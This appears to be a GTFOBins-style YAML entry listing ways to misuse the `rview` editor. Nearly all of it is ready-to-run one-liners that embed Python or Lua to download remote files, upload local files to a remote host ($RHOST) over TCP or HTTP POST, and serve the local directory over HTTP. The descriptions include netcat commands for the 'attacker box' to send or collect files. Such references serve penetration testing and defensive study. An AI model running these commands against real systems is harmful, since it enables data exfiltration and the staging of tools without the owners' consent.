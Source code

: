 ```yaml
---
functions:
  file-download:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        rview -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["$URL"], e["$LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        rview -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("$LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("$LFILE"), "wb");
          f:write(d);
          io.close(f);'
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        rview -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))
        vim.command(":q!")'
  server:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        rview -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
  file-upload:
    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        rview -c ':lua local f=io.open(os.getenv("$LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
          t:send(d);
          t:close();'
---
```

